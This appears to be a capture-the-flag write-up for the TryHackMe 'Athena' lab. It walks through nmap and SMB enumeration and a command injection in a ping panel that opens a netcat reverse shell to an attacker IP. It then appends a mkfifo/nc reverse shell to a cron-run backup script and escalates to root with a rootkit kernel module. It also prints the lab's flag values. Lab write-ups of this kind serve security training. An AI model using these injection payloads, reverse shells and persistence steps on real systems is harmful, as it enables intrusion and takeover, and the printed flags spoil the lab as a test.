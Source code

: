 # Athena :
```sh
export IP= M-ip
```
# Information Gathering: 

nmap -sV -sC -A  $IP
```sh
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-05 00:25 CEST
Nmap scan report for 10.10.155.144
Host is up (0.14s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3b:c8:f8:13:e0:cb:42:60:0d:f6:4c:dc:55:d8:3b:ed (RSA)
|   256 1f:42:e1:c3:a5:17:2a:38:69:3e:9b:73:6d:cd:56:33 (ECDSA)
|_  256 7a:67:59:8d:37:c5:67:29:e8:53:e8:1e:df:b0:c7:1e (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Athena - Gods of olympus
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: -33s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-05-04T22:25:31
|_  start_date: N/A
|_nbstat: NetBIOS name: ROUTERPANEL, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.53 seconds
```
Now, we have some services that are running in the machine.
# Enumerating this services: 

![Screenshot_22](https://github.com/a-9-k/Rooms-Write_Up-THM/assets/53786047/7c256c8a-fad5-4434-867a-f278095acd9d)

Nothing in Here.

I used a tool called enum4linux for the smb  
```sh
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\ubuntu (Local User)
S-1-22-1-1001 Unix User\athena (Local User)

Sharename       Type      Comment
	---------       ----      -------
	public          Disk      
	IPC$            IPC       IPC Service (Samba 4.15.13-Ubuntu)
 
 [+] Attempting to map shares on 10.10.155.144

//10.10.155.144/public	Mapping: OK Listing: OK Writing: N/A
```

By this information i was able to use smbclient to enter the Public share

```sh
smbclient  //10.10.155.144/public
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Apr 17 02:54:43 2023
  ..                                  D        0  Mon Apr 17 02:54:05 2023
  msg_for_administrator.txt           N      253  Sun Apr 16 20:59:44 2023
```
So we found text file from the administrator exposing the  dir /myrouterpanel 

```sh
cat msg_for_administrator.txt 

Dear Administrator,

I would like to inform you that a new Ping system is being developed and I left the corresponding application in a specific path, which can be accessed through the following address: /myrouterpanel

Yours sincerely,

Athena
Intern
```
Let’s visit the directory /myrouterpanel.

![Screenshot_23](https://github.com/a-9-k/Rooms-Write_Up-THM/assets/53786047/d010c5af-2dfc-48f3-979d-a6788daab527)

by seeing this ping tool it obvious that we have a command injection vuln
$(ls) !ls ;ls .....
I managed to get this injection to get me a reverse shell 

```sh
127.0.0.1 -c `nc 10.8.46.178 9001 -e /bin/sh`
nc -lvnp 9001

listening on [any] 9001 ...
connect to [10.8.46.178] from (UNKNOWN) [10.10.155.144] 51460
ls
index.html
ping.php
style.css
under-construction.html

```
# stabilize the reverse shell :
```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
Press CTRL + Z to background process and get back to your host machine
stty raw -echo; fg
export TERM=xterm
```
Here I used linpeas.sh to enumerate the machine.
```sh
my machine : python3 -m http.server 8000
reverse shell : wget http://vpnIP/linpeas.sh -O linpeas.sh
```
I found this file /usr/share/backup/backup.sh with athena as the owner, so i add revshell to the file bc it has crontab running the sh file.

```sh

-rwxr-xr-x   1 www-data athena     258 May 28  2023 backup.sh

www-data@routerpanel:/usr/share/backup$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.46.178 4444 >/tmp/f'  >> backup.sh
www-data@routerpanel:/usr/share/backup$ cat backup.sh 
#!/bin/bash

backup_dir_zip=~/backup

mkdir -p "$backup_dir_zip"

cp -r /home/athena/notes/* "$backup_dir_zip"

zip -r "$backup_dir_zip/notes_backup.zip" "$backup_dir_zip"

rm /home/athena/backup/*.txt
rm /home/athena/backup/*.sh

echo "Backup completed..."
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.46.178 4444 >/tmp/f
-----------------------------------------------------------------------------------------------------------------------------------------------------
in my machine
nc -lvnp 4444             
listening on [any] 4444 ...
connect to [10.8.46.178] from (UNKNOWN) [10.10.155.144] 60748
/bin/sh: 0: can't access tty; job control turned off
$ id     
uid=1001(athena) gid=1001(athena) groups=1001(athena)
$ cat user.txt
857c4a4fbac638afb6c7ee45eb3e1a28

```
 What we can run as sudo.
```sh
athena@routerpanel:~/notes$ sudo -l
Matching Defaults entries for athena on routerpanel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User athena may run the following commands on routerpanel:
    (root) NOPASSWD: /usr/sbin/insmod /mnt/.../secret/venom.ko
```
# Privilege escalation:

 I decompile the file venom.ko , and  i used chatgpt to understand it so i found that 
```sh
 The code you've provided isn't inherently vulnerable by itself; rather, it's designed to exploit vulnerabilities or weaknesses in the Linux kernel. Let's break down potential vulnerabilities or risks associated with this code:

Kernel Code Modification: The code modifies the behavior of certain system calls by hooking into them. This kind of modification introduces a risk of instability or unintended behavior in the kernel. If the modification is not implemented correctly or conflicts with other parts of the kernel, it could lead to system crashes or security vulnerabilities.

Privilege Escalation: By intercepting the kill system call, the code grants root privileges (give_root) based on specific conditions. If an attacker can trigger these conditions, they may be able to escalate their privileges to root, gaining complete control over the system.
Process Hiding: The code includes functionality (is_invisible) to hide certain processes from being listed by system calls like getdents and getdents64. While this may be used for legitimate purposes, such as hiding sensitive processes, it can also be abused by malware to conceal its presence on the system, making it harder for security tools and administrators to detect.

Kernel Module Loading: The code is implemented as a kernel module (diamorphine_init), which means it can be loaded into the kernel dynamically. Kernel modules have elevated privileges and can interact directly with kernel internals, making them powerful tools for both legitimate and malicious purposes. However, loading unauthorized or malicious kernel modules introduces significant security risks, as they can bypass standard security mechanisms and directly manipulate the kernel.

Lack of Input Validation: The code does not appear to perform extensive input validation, particularly in functions like hacked_getdents and hacked_getdents64, where directory entries are filtered based on specific criteria. Without proper input validation, there's a risk of buffer overflows, out-of-bounds accesses, and other vulnerabilities that could be exploited by attackers to compromise the system.

```
```
# exploited
athena@routerpanel:/mnt/.../secret$ sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
athena@routerpanel:/mnt/.../secret$ kill -57 0
athena@routerpanel:/mnt/.../secret$ whoami
root
athena@routerpanel:/mnt/.../secret$ cd /root/
athena@routerpanel:/root$ ls
fsociety00.dat  root.txt
athena@routerpanel:/root$ cat root.txt 
aecd4a3497cd2ec4bc71a2315030bd48
```
